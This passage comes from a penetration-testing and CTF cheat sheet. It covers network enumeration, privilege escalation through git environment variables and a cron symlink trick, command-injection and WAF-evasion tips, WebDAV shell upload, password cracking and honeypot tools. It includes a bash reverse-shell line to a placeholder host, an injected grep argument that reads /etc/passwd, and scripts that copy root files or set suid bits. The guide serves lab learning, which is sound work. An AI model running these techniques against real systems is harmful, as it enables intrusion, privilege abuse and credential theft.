    gcd, a, b = egcd(e, phi)
    d = a

    print( "n:  " + str(d) );

    # Decrypt ciphertext
    pt = pow(ct, d, n)
    print( "pt: " + str(pt) )

 if __name__ == "__main__":
    main()


SECCURE Elliptic Curve Crypto Utility for Reliable Encryption
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If you see, something like this

::

 '\x00\x146\x17\xe9\xc1\x1a\x7fkX\xec\xa0n,h\xb4\xd0\x98\xeaO[\xf8\xfa\x85\xaa\xb37!\xf0j\x0e\xd4\xd0\x8b\xfe}\x8a\xd2+\xf2\xceu\x07\x90K2E\x12\x1d\xf1\xd8\x8f\xc6\x91\t<w\x99\x1b9\x98'

it's probably `SECCURE Elliptic Curve Crypto Utility for Reliable Encryption <http://point-at-infinity.org/seccure/>`_ Utilize python module `seccure <https://pypi.python.org/pypi/seccure>`_ to get the plaintext. 


Network Information
-------------------


Sometimes, ifconfig and netstat are not present on the system. If so, check if ip and ss are installed?

ip
^^

::

  ip addr
    
   1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
   17: wwan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
      link/ether b2:06:fe:2b:73:c6 brd ff:ff:ff:ff:ff:ff
     inet 14.97.194.148/30 brd 14.97.194.151 scope global dynamic noprefixroute wwan0
       valid_lft 5222sec preferred_lft 5222sec

hostname
^^^^^^^^

We can also check the ipaddress of the host using hostname command

::

 hostname -I
 172.17.0.1 14.97.194.148 

ss
^^

ss - another utility to investigate sockets

::

 ss
 
       -n, --numeric
              Do not try to resolve service names.
     -l, --listening
              Display only listening sockets (these are omitted by default).
       -t, --tcp
              Display TCP sockets.

       -u, --udp
              Display UDP sockets.


User Home Directory
-------------------

If we find that home directory contains

Firefox/ Thunderbird/ Seabird
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

We can utilize `Firefox Decrypt <https://github.com/unode/firefox_decrypt>`_ is a tool to extract passwords from Mozilla (Firefox/ Thunderbird/ Seabird) profiles. It can be used to recover passwords from a profile protected by a Master Password as long as the latter is known. If a profile is not protected by a Master Password, a password will still be requested but can be left blank.

Sudoers file
------------

If the sudoers file contains: 
	
secure_path
^^^^^^^^^^^
Path used for every command run from sudo. If you don't trust the people running sudo to have a sane PATH environment variable you may want to use this. Another use is if you want to have the “root path” be separate from the “user path”. Users in the group specified by the exempt_group option are not affected by secure_path. This option is not set by default.

env_reset
^^^^^^^^^
If set, sudo will run the command in a minimal environment containing the TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME and SUDO_* variables. Any variables in the caller's environment that match the env_keep and env_check lists are then added, followed by any variables present in the file specified by the env_file option (if any). The contents of the env_keep and env_check lists, as modified by global Defaults parameters in sudoers, are displayed when sudo is run by root with the -V option. If the secure_path option is set, its value will be used for the PATH environment variable. This flag is on by default.

mail_badpass
^^^^^^^^^^^^
Send mail to the mailto user if the user running sudo does not enter the correct password. If the command the user is attempting to run is not permitted by sudoers and one of the mail_all_cmnds, mail_always, mail_no_host, mail_no_perms or mail_no_user flags are set, this flag will have no effect. This flag is off by default.

run-parts
---------

run-parts runs all the executable files named, found in directory directory. This is mainly useful when we are waiting for the cron jobs to run. It can be used to execute scripts present in a folder.

:: 

  run-parts /etc/cron.daily

Java keystore file
------------------

Refer `Java Keytool essentials working with java keystores <https://www.digitalocean.com/community/tutorials/java-keytool-essentials-working-with-java-keystores>`_ and `openssl essentials working with ssl certificates private keys and csrs <https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs#convert-certificate-formats>`_

Cracking MD5 Hashes
-------------------

Try `Crackstation <https://crackstation.net/>`_ or `ISC Reverse hash <https://isc.sans.edu/tools/reversehash.html>`_

Steghide
--------
Looking for hidden text in the images? Utilize steghide

::

  steghide version 0.5.1

  the first argument must be one of the following:
  embed, --embed          embed data
  extract, --extract      extract data
  info, --info            display information about a cover- or stego-file
  info <filename>       display information about <filename>
  encinfo, --encinfo      display a list of supported encryption algorithms
  version, --version      display version information
  license, --license      display steghide's license
  help, --help            display this usage information

.. Tip :: Sometimes, there is no password, so just press enter.

Git client Privilege Escalation
--------------------------------
Git clients (before versions 1.8.5.6, 1.9.5, 2.0.5, 2.1.4 and 2.2.1) and Mercurial clients (before version 3.2.3) contained three vulnerabilities that allowed malicious Git or Mercurial repositories to execute arbitrary code on vulnerable clients under certain circumstances. Refer `12 Days of HaXmas: Exploiting CVE-2014-9390 in Git and Mercurial <https://community.rapid7.com/community/metasploit/blog/2015/01/01/12-days-of-haxmas-exploiting-cve-2014-9390-in-git-and-mercurial>`_

In one of write-up, `Nicolas Surribas <http://devloop.users.sourceforge.net/>`_ has mentioned about two git environment variables GIT_SSH and GIT_TEMPLATE which can be utilized to do privilege escalation if git clone is performed using a suid binary. Imagine a suid binary utilized to do git clone from a remote directory.

GIT_SSH
^^^^^^^

If either (GIT_SSH or GIT_SSH_COMMAND) of these environment variables is set then git fetch and git push will use the specified command instead of ssh when they need to connect to a remote system. The command will be given exactly two or four arguments: the username@host (or just host) from the URL and the shell command to execute on that remote system, optionally preceded by -p (literally) and the port from the URL when it specifies something other than the default SSH port. $GIT_SSH_COMMAND takes precedence over $GIT_SSH, and is interpreted by the shell, which allows additional arguments to be included.  $GIT_SSH on the other hand must be just the path to a program (which can be a wrapper shell script, if additional arguments are needed).

::

  echo '#!/bin/bash' > cmd
  echo 'cp /root/flag.txt /tmp' >> cmd
  echo 'chmod 777 /tmp/flag.txt' >> cmd
  GIT_SSH=/home/username/cmd ./setuidbinary(utilizing git clone/ git fetch)

  or

  echo 'chown root:root /home/username/priv ; chmod 4755 /home/username/priv' > ssh

  where priv is binary compiled from suid.c

This basically changes the command from

::

  trace: built-in: git 'clone' 'ssh://root@machine-dev:/root/secret-project' '/mnt/secret-project/'

to

::

  trace: run_command: '/home/user/ssh' 'root@machine-dev' 'git-upload-pack '\''/root/secret-project'\'''

GIT_TEMPLATE_DIR
^^^^^^^^^^^^^^^^^
Files and directories in the template directory whose name do not start with a dot will be copied to the $GIT_DIR after it is created. Refer `Git-init <https://git-scm.com/docs/git-init>`_ 

::

  cp -r /usr/share/git-core/templates/ mytemplates
  cd mytemplates/hooks
  echo '#!/bin/bash' > post-checkout
  echo 'cp /root/flag /tmp/flag2' >> post-checkout
  echo 'chown username.username /tmp/flag2' >> post-checkout
  chmod +x post-checkout
  cd ../..
  GIT_TEMPLATE_DIR=/home/username/mytemplates/ ./setuidbinary( utilizing git clone/ git fetch)


Metasploit shell upgrade
------------------------

In metasploit framework, if we have a shell ( you should try this also, when you are trying to interact with a shell and it dies (happened in a VM), we can upgrade it to meterpreter by using sessions -u

:: 

   sessions -h
   Usage: sessions [options]
   
   Active session manipulation and interaction.

   OPTIONS:

   -u <opt>  Upgrade a shell to a meterpreter session on many platforms



Truecrypt Files
---------------

If you have a truecrypt volume to open and crack it's password, we can use truecrack to crack the password and veracrypt to open the truecrypt volume.

:: 

  truecrack --truecrypt <Truecrypt File> -k SHA512 -w <Wordlist_File>

and Veracrypt or cryptsetup to open the file.

::

  cryptsetup open --type tcrypt <Truecrypt> <MountName>



   
 
Grep in input box?
------------------

* If the html code contains the below where $key is the input from the user, and we want to read a particular value

  ::
   
    passthru("grep -i $key dictionary.txt");

   Remember grep works in a way "grep bitvijays /etc/passwd" is find bitvijays in /etc/passwd. This can be used in reading some files on the disk.

* If the above contains

  ::

   if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
        } else {
        passthru("grep -i $key dictionary.txt");
    }

 Here we can use ".* /etc/passwd #" 

 This command searches for any character in the file and comments out the reference to dictionary.txt


Others
------
* It is important to check .profile files also. As it might contain scripts which are executed when a user is logged in. Also, it might be important to see how a application is storing password.

* If there's a RCE in some web-application, probably, one of the way to check RCE is to ping your own machine.

* If OPcache engine seemed to be enabled ( check from phpinfo.php file ) which may allow for exploitation (see the following article)https://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/

* Identification of OS:
	
 :: 

  cat /etc/os-release

  NAME="Ubuntu" VERSION="16.04 LTS (Xenial Xerus)" ID=ubuntu
  ID\_LIKE=debian PRETTY\_NAME="Ubuntu 16.04 LTS" VERSION\_ID="16.04"
  HOME\_URL="http://www.ubuntu.com/"
  SUPPORT\_URL="http://help.ubuntu.com/"
  BUG\_REPORT\_URL="http://bugs.launchpad.net/ubuntu/"
  UBUNTU\_CODENAME=xenial

* Many times if IPv6 is enabled, probably you can utilize IPv6 to connect and bypass firewall restrictions ( If firewall is not implemented at IPv6 level - many times it is not ).

 * To find IPv6 from SNMP 

  :: 

   snmpwalk -v2c -c public prism 1.3.6.1.2.1.4.34.1.3    
   iso.3.6.1.2.1.4.34.1.3.2.48.1.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 335544320
   iso.3.6.1.2.1.4.34.1.3.2.48.2.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 335544321
   iso.3.6.1.2.1.4.34.1.3.2.48.2.18.52.86.120.171.205.0.0.0.0.0.0.0.1 = INTEGER: 335544323

  Now, convert the decimal value after "iso.3.6.1.2.1.4.34.1.3.2" to hex which would be your IPv6 address "3002:1234:5678:ABCD::1"

 .. ToDo ::  Mention examples for IPv6 connect

* Disable windows firewall 

  ::

   netsh firewall set opmode disable

* Port 139 Open

 :: 

   smbclient -N -L 192.168.1.2 WARNING: The "syslog" option is deprecated
   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Sharename       Type      Comment
   ---------       ----      -------
   print$          Disk      Printer Drivers
   kathy           Disk      Fred, What are we doing here?
   tmp             Disk      All temporary files should be stored here
   IPC$            IPC       IPC Service (red server (Samba, Ubuntu))

   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Server               Comment
   ---------            -------
   RED                  red server (Samba, Ubuntu)

   Workgroup            Master
   ---------            -------
   WORKGROUP            RED

   -N : If specified, this parameter suppresses the normal password prompt from the client to the user. This is useful when accessing a service that does not require a password. -L\|--list This option allows you to look at what services are available on a server. You use it as smbclient
   -L host and a list should appear. The -I option may be useful if your NetBIOS names don't match your TCP/IP DNS host names or if you are trying to reach a host on another network.


 If you want to access the share you might want to type

 :: 

   smbclient \\\\IP\\share\_name

 So, in the above example, it would be

 ::

   smbclient \\\\192.168.1.2\\kathy

 If port 139 is open, also run enum4linux, may be it would help get the user list
    
    


* Port 69 UDP:

  TFTP

  :: 

   get or put file

* Want to see what firewall rules are applied in Linux? Get /etc/iptables/rules.v4 and /etc/iptables/rules.v6 file. 
	    
* Ruby Best way to get quoted words / phrases out of the text

  :: 

    text.scan(/"([^"]\*)"/)

    
* Convert all text in a file from UPPER to lowercase
	
  :: 

   tr '[:upper:]' '[:lower:]' < input.txt > output.txt


* Remove lines longer than x or shorter than x

  :: 

   awk 'length($0)>x' filename or awk 'length($0)

* Remember, by default cewl generates a worldlist of one word. It by default ignore words in quotes. For example: if "Policy of Truth" is written in quotes. It will treat it as three words. However, what we wanted is to consider whole word between the quotes. By doing a small change in the cewl source code, we can get all the words in quotes, we also can remove spaces and changing upper to lower, we were able to create a small wordlist.

 
* Got a random string: Figure out what it could be? Hex encoded, base64 encoded, md5 hash. Use hash-identifier tool to help you.

* If a machine is running a IIS Server and we have found a way to upload a file. We can try asp web-shell or meterpreter of asp, aspx, aspx-exe executable formats from msfvenom.

* If we get a pcap file which contains 802.11 data and has auth, deauth and eapol key packets, most probably it's a packet-capture done using the wireless attack for WPA-Handshake. Use aircrack to see if there is any WPA handshake present.

 :: 

   13:06:21.922176 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.922688 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.923157 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.924224 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.924736 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.925723 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.933402 Probe Response (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit] CH: 11, PRIVACY
   13:06:21.933908 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.934427 Clear-To-Send RA:e0:3e:44:04:52:75 (oui Unknown) 
   13:06:21.991250 Authentication (Open System)-1: Successful
   13:06:21.992274 Authentication (Open System)-1: Successful
   13:06:21.992282 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.992795 Authentication (Open System)-2: 
   13:06:21.992787 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.994834 Assoc Request (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit]
   13:06:21.994843 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.996890 Assoc Response AID(1) : PRIVACY : Successful
   13:06:21.996882 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.011783 Action (e8:50:8b:20:52:75 (oui Unknown)): BA ADDBA Response
   13:06:22.012314 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.012827 BAR RA:e8:50:8b:20:52:75 (oui Unknown) TA:c4:12:f5:0d:5e:95 (oui Unknown) CTL(4) SEQ(0) 
   13:06:22.013330 BA RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.014874 CF +QoS EAPOL key (3) v2, len 117
   13:06:22.015379 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.030226 CF +QoS EAPOL key (3) v1, len 117
   13:06:22.030746 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.043034 CF +QoS EAPOL key (3) v2, len 175
   13:06:22.043026 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.054803 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056338 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056859 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.064514 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.065030 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.079878 Clear-To-Send RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.080901 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.110144 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station

* Transfer an image
	
 :: 

   base64 flair.jpg 
   Copy output 
   vi flair 
   Paste the clipboard 
   base64 -d flair > flair.jpg

* Have a web-accessible git ? utilize `dvcs-ripper <https://github.com/kost/dvcs-ripper>`_ to rip web accessible (distributed) version control systems: SVN, GIT, Mercurial/hg, bzr. It can rip repositories even when directory browsing is turned off. Eric Gruber has written a blog on `Dumping Git Data from Misconfigured Web Servers <https://blog.netspi.com/dumping-git-data-from-misconfigured-web-servers/>`_ providing good walkthru.

* It's always important to find, what's installed on the box:

 :: 

   dpkg-query -l 

 or using wild cards

 :: 

   dpkg-query -l 'perl*'

* It's always important to note down all the passwords found during the process of exploiting a vulnerable machine as there is a great possibility that passwords would be reused.
 
* If you have .jar file, Probably use jd-gui to decompile and view the class file. 


* Find recently modified files:

  ::

   find / -mmin -10 -type f 2>/dev/null

  The above will show you which files have been modified within the last 10 minutes, which could help you find out whether an important config file, or log file has been modified.

* Getting a reverse shell from:

 * Drupal: Now that we have access to the Drupal administration panel, we can gain RCE by enabling the PHP filter module. This will allow us to execute arbitrary code on the site by inserting a specifically crafted string into page content. After enabling the module, I proceed to allow code to be executed by all users under the configuration screen for the module. Once enabled we need to give permission to use it so in people -> permissions check "Use the PHP code text for. 
   
   Next, we create a new block (by going to Blocks, under the Structure menu) with the following content. We make sure to select PHP code from the Text format drop down. Taken from `Droopy Vulnhub WriteUp <https://g0blin.co.uk/droopy-vulnhub-writeup/>`_
   Drupal settings file location: /var/www/html/sites/default/settings.php
 
 * WordPress : If we have found a username and password of wordpress with admin privileges, we can upload a php meterpreter. One of the possible way is to do Appearance > Editor > Possibly edit 404 Template.

* If the only port which is open is 3128, check for the open proxy and route the traffic via the open proxy. Probably, squid proxy server would be running. If it is the squid configuration file is /etc/squid/squid.conf
 
 * If you do get the configuration file, do check for what kind of proxy it is! like SOCKS4, SOCKS5 or HTTP(S) proxy and is there any authentication required to access the proxy. 
 * We may utilize `Proxychains <https://github.com/haad/proxychains>`_ to access the other side of network like ssh, http etc. 

* Running Asterisk/ Elastix/ FreePBX or any PBX, probably try `SIPVicious <https://github.com/EnableSecurity/sipvicious>`_  suite is a set of tools that can be used to audit SIP based VoIP systems. Running "http:\\IP\panel" should provide us valid extensions.

* Sharepoint running? Probably, check `SPartan <https://github.com/sensepost/SPartan>`_ Frontpage and Sharepoint fingerprinting and attack tool and `SharePwn <https://github.com/0rigen/SharePwn>`_ SharePoint Security Auditor.

* authbind software allows a program that would normally require superuser privileges to access privileged network services to run as a non-privileged user. authbind allows the system administrator to permit specific users and groups access to bind to TCP and UDP ports below 1024.

* Mostly, if there's only port open like ssh and the IP might be acting as a interface between two networks? Like IT and OT. Probably, try to add that IP address as a default route? As it might be acting as a router?

* If you are trying to figure out the hostname of the machine and the DNS-Server is not configured, may be try to do a Full Nmap Scan -A Option? (Still need to figure out how does that work)

* Want to send a email via the SMTP server something like SMTP-Open-Relay utilize `Swaks <http://www.jetmore.org/john/code/swaks/>`_ Swiss Army Knife for SMTP.

  ::

   swaks --to xxxxx@example.com --from xxxxxee@example.edu --server 192.168.110.105:2525 --body "Hey Buddy How are you doing" --header "Subject: Hello! Long time"

* Got /etc/shadow file?, utilize /etc/passwd with unshadow command and use john or cudahashcat to crack passwords.

 ::

  unshadow passwd shadown

* If IIS and WebDav with PUT and MOVE method are enabled, we can use testdav or cadaver (A command-line WebDAV client for Unix) to see which files are allowed

 ::

  davtest -url http://10.54.98.15/
  ********************************************************
   Testing DAV connection
  OPEN		SUCCEED:		http://10.54.98.15
  ********************************************************
  NOTE	Random string for this session: E3u9ISnNswYes0
  ********************************************************
   Creating directory
  MKCOL		SUCCEED:		Created http://10.54.98.15/DavTestDir_E3u9ISnNswYes0
  ********************************************************
   Sending test files
  PUT	pl	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.pl
  PUT	asp	FAIL
  PUT	aspx	FAIL
  PUT	cgi	FAIL
  PUT	html	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  PUT	cfm	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.cfm
  PUT	jhtml	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jhtml
  PUT	shtml	FAIL
  PUT	php	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.php
  PUT	jsp	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jsp
  PUT	txt	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
  ********************************************************
   Checking for test file execution
  EXEC	pl	FAIL
  EXEC	html	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  EXEC	cfm	FAIL
  EXEC	jhtml	FAIL
  EXEC	php	FAIL
  EXEC	jsp	FAIL
  EXEC	txt	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
  
  ********************************************************
  /usr/bin/davtest Summary:
  Created: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.pl
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.cfm
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jhtml
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.php
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jsp
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
  Executes: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  Executes: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
 
 Now, we can see that pl, html, txt and other files can be uploaded. Now, if the MOVE method is enabled, we can upload a aspx meterpreter in a text file and then MOVE the .txt file to .aspx and execute the aspx file by using

 ::

  MOVE /shell.txt HTTP/1.1
  Host: example.com
  Destination: /shell.aspx

* In one of the VM, one of the task was to capture the RAM of the system by using LiME ~ Linux Memory Extractor ( which is executed by suid binary with root privileges ). Let's say the ramdump was saved at

  ::

   /tmp/ramdump

  If, you create a symlink from /tmp/ramdump to /etc/crontab

  ::

   ln -s /etc/crontab /tmp/ramdump

  Now, when the ramdump is taken, lime will now dump the content of RAM straight into /etc/crontab. As crontab will ignore everything which doesn’t match the correct syntax. If the memory contains a injected string such as 

  ::

   cat cron.py
   print "* * * * * root /bin/bash /home/username/evilscript"
  
  the injected string will end up in /etc/crontab will be executed.

  The contents of evilscript can be

  ::

   /bin/bash -i >& /dev/tcp/IP/Port 0>&1

  which will provide the root shell to the attacker. Thanks to TheColonial :)

* `phpbash <https://github.com/Arrexel/phpbash>`_ is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible.

* ps aux not fully visible try 

  ::

   echo "`ps aux --sort -rss`"

* If there's a XXE on a website and possible RFI using internal address i.e on http://127.0.0.1:80/home=RFI rather than http://10.54.98.10:80/home=RFI, utilize XXE to send the request with localaddress.

* If there's a possible command execution on a website such as 

  ::

   curl -A "bitvijays" -i "http://IPAddress/example?parameter='linux_command'"

  However, it is protected by a WAF, probably, try bash globbling techniques with ? and \*. Refer `Web Application Firewall (WAF) Evasion Techniques <https://medium.com/secjuice/waf-evasion-techniques-718026d693d8>`_ and `Web Application Firewall (WAF) Evasion Techniques #2 <https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0>`_ ! Amazing stuff here!
  Also, it might be a good idea to test the command with ? on your local machine first then directly on the target. Also, sometimes, it adding a space before or after the linux_command might work like ' linux_command' or 'linux_command '

* Similar to ls there is dir in linux. Try "dir -l" Might be helpful sometimes.

* Sometimes, we don't have tools on the victim machine, in that case we can download static binaries from `Static-Binaries <https://github.com/andrew-d/static-binaries>`_ If not, found, try the deb or rpm package of the binary, extract it and upload.

* mysql can execute statements in one liner using --execute or -e option

  ::

   mysql [options] db_name
   --user=user_name, -u user_name  : The MariaDB user name to use when connecting to the server.
   --password[=password], -p[password] : The password to use when connecting to the server. If you use the short option form (-p), you cannot have a space between the option and the password. If you omit the password value following the --password or -p option on the command line, mysql
           prompts for one.
   --execute=statement, -e statement : Execute the statement and quit. Disables --force and history file. The default output format is like that produced with --batch.

* If there's .action file present in the URL on a Apache WebServer, `Apache Struts <https://svn.apache.org/repos/asf/struts/archive/trunk/struts-doc-1.1/api/org/apache/struts/action/package-summary.html>`_ might be installed on it. Check for Apache Struts vulnerabilities on it.

* Windows XP Machine ? and we are able to put some files anywhere? Refer `Playing with MOF files on Windows, for fun & profit <http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html>`_

* Good Post Exploitation Guide `Windows Post-Exploitation Command List <http://www.handgrep.se/repository/cheatsheets/postexploitation/WindowsPost-Exploitation.pdf>`_

* Oracle Padding Attacks? Refer `PadBuster <https://github.com/GDSSecurity/PadBuster>`_ 

* If there's a cron job with 

 ::

  * * * * * php /path-to-your-project/artisan schedule:run >> /dev/null 2>&1

 possibly, we can edit schedule method of the App\Console\Kernel class (Kernel.php) in App\Console\Kernel and use exec method to execute commands on the operating systems.

 ::

  $schedule->exec('node /home/forge/script.js')->daily();

 Refer `Task Scheduling <https://laravel.com/docs/5.6/scheduling>`_ 

* Handy Stuff

 * Utilize xxd to convert hex to ascii

  ::

   xxd -r -p
   -p | -ps | -postscript | -plain : output in postscript continuous hexdump style. Also known as plain hexdump style.
   -r | -revert : reverse operation: convert (or patch) hexdump into binary.  If not writing to stdout, xxd writes into its output file without truncating it. Use the combination -r -p to read plain hexadecimal dumps without line number information and without a particular column layout. Additional Whitespace and line-breaks are allowed anywhere.

 * We may use base64 -w 0 to disable line wrapping while encoding files with base64.
 * Use python

  * binascii.unhexlify(hexstr) to convert hex to string
  * base64.decodestring(str) to decode base64 string
  * Convert number to hex

   :: 
     
      hex(15)
      '0xf'

  * Convert hex to decimal

   ::

    s = "6a48f82d8e828ce82b82"
    i = int(s, 16)

  * If we are able to execute python code maybe use popen to execute os commands.
   
   ::

    import os;
    os.popen("whoami").read()
    
 * Getting out of more
  
  If in somecase, we are unable to ssh into the machine or being logged out when trying ssh, check the /etc/passwd file for the shell defined for that user.

  ::
   
    cat /etc/passwd | grep user1
    user1:x:11026:11026:user level 1:/home/user1:/usr/bin/showtext

  Here Instead of /bin/bash, user1 is using /usr/bin/showtext, which is apparently not a shell. Let’s look at the content of the file

  ::

    cat /usr/bin/showtext
    #!/bin/sh
    more ~/text.txt
    exit 0

  In such cases, First, minimize your terminal so that when we are logged into user1 via ssh command, the large text will force a “more” message to prompt us to continue the output. Now that we have forced the terminal to prompt us to continue the display via “more” or “–More–(50%)” in this case, press “v” to enter “vim”, a built-in text editor on Unix machines. Once, we have vim interface, use :shell to get a shell.

 * List all the files together

  ::

   find /home -type f -printf "%f\t%p\t%u\%g\t%m\n" 2>/dev/null | column -t
 

Cyber-Deception
===============

Wordpot
-------

`Wordpot <https://github.com/gbrindisi/wordpot>`_ : Wordpot is a Wordpress honeypot which detects probes for plugins, themes, timthumb and other common files used to fingerprint a wordpress installation.

::

 python /opt/wp/wordpot.py --host=$lanip --port=69 --title=Welcome to XXXXXXX Blog Beta --ver=1.0 --server=XXXXXXXWordpress

FakeSMTP
--------

`FakeSMTP <http://nilhcem.com/FakeSMTP/>`_ : FakeSMTP is a Free Fake SMTP Server with GUI for testing emails in applications easily.

::

  java -jar /opt/fakesmtp/target/fakeSMTP-2.1-SNAPSHOT.jar -s -b -p 2525 127.0.0.1 -o /home/username

Rubberglue
----------

`Rubberglue <https://github.com/adhdproject/adhdproject.github.io/blob/master/Tools/Rubberglue.md>`_ : We can use Rubberglue to listen on a port such that any traffic it receives on that port it will forward back to the client ( attacker ) on the same port.

::

  python2 /opt/honeyports/honeyports-0.4.py -p 23

Knockd
------

`Knockd - Port-knocking server <http://www.zeroflux.org/projects/knock>`_ : knockd is a port-knock server. It listens to all traffic on an ethernet (or PPP) interface, looking for special "knock" sequences of port-hits. A client makes these port-hits by sending a TCP (or UDP) packet to a port on the server. This port need not be open -- since knockd listens at the link-layer level, it sees all traffic even if it's destined for a closed port. When the server detects a specific sequence of port-hits, it runs a command defined in its configuration file. This can be used to open up holes in a firewall for quick access.

If there is port knocking involved, read the /etc/knockd.conf, read the sequence port knock should be done and execute

::

 for PORT in 43059 22435 17432; do nmap -PN 192.168.56.203 -p $PORT; done

DCEPT
-----

SecureWorks researchers have created a solution known as `DCEPT (Domain Controller Enticing Password Tripwire) <https://www.secureworks.com/blog/dcept>`_ to detect network intrusions. Github is `dcept <https://github.com/secureworks/dcept>`_ 

Useful Tools
============

* `exe2hex <https://github.com/g0tmi1k/exe2hex>`_ : Inline file transfer using in-built Windows tools (DEBUG.exe or PowerShell). 

* `Powercat <https://github.com/secabstraction/PowerCat>`_ : A PowerShell TCP/IP swiss army knife that works with Netcat & Ncat

* `Unicorn <https://github.com/trustedsec/unicorn>`_ is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory.

* `Nishang <https://github.com/samratashok/nishang>`_ is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming.

.. _A1-Local-file-Inclusion:

Appendix-I : Local File Inclusion
=================================

Local File Inclusion (LFI) is a type of vulnerability concerning web server. It allow an attacker to include a local file on the web server. It occurs due to the use of not properly sanitized user input.

Tools
-----

To test LFI, RFI, we can also use `Uniscan <http://tools.kali.org/web-applications/uniscan>`_ Uniscan is a simple Remote File Include, Local File Include and Remote Command Execution vulnerability scanner. 

::

  uniscan -h
  OPTIONS:
    -h  help
    -u  <url> example: https://www.example.com/
    -f  <file> list of url's
    -b  Uniscan go to background
    -q  Enable Directory checks
